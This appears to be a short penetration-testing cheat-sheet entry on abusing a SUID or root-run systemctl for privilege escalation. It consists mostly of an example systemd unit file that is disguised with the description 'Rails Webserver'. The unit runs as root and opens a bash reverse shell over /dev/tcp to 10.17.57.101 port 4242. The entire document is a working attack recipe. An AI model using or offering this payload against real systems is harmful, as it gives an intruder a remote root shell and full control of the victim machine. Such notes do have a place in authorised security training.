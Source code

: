 ## systemctl

* if systemctl has sed SUID or can run as root then 
* create service for root user reverse shell
* in /tmp directory

#### example

```
[Unit]
Description=Rails Webserver
After=syslog.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.57.101/4242 0>&1'

[Install]
WantedBy=multi-user.target

```